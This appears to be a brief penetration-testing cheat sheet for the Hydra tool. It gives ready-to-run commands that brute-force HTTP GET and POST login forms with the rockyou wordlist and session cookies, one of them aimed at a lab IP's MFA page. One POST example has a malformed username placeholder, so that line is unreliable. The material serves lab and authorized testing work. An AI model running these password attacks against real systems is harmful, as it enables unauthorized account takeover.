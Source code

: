 https://www.hackingarticles.in/a-detailed-guide-on-hydra/
##### Bruteforce HTTP-Get
```
hydra -l USER -P /usr/share/wordlists/rockyou.txt IP -s PORT http-get /PATH
```

##### Bruteforce HTTP-Post-form
Post entire Burp Suite output for the variables
`sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt IP http-post-form "PATH:username=^USER&password=^PASS^:F=Invalid Password!"`
With cookie:
`sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt IP http-post-form "PATH:username=^USER^&password=^PASS^:H=Cookie\: PHPSESSID=vi1l68d78tdu4c84uajqdjula4:F=fail"`

```
hydra -l jason -P list.txt 10.10.204.240 http-post-form "/console/mfa.php:code=^PASS^:H=Cookie: PHPSESSID=l6jjj91qbp4867sesgnso2ti78; user=jason_test_account; pwd=abkr:Incorrect" -I -V
```

```
hydra -l username -P list.txt IP_ADDR http-post-form "/PATH/VULN.PHP:PASSWORD_ARG=^PASS^:H=Cookie: COOKIE1=TESTl; COOKIE2=TEST2:INCORRECT_RET_VALUE" -I -V
```
Note: the "incorrect" must always be the last parameter

